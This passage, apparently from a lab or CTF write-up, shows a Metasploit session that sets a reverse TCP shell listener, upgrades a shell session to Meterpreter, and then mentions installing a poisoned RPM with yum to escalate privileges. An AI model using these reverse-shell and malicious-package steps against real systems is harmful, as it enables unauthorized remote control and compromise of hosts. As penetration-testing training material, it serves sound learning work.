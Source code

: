 ```bash
msf5 post(multi/manage/shell_to_meterpreter) > use exploit/multi/handler 
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.182.144    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.182.144:4333 
msf5 exploit(multi/handler) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(multi/handler) > use 0
msf5 post(multi/manage/shell_to_meterpreter) > set lport 4333
lport => 4333
msf5 post(multi/manage/shell_to_meterpreter) > set session 3
session => 3
```

I then uploaded the poisoned RPM to the host over sftp and started a `yum localinstall`.
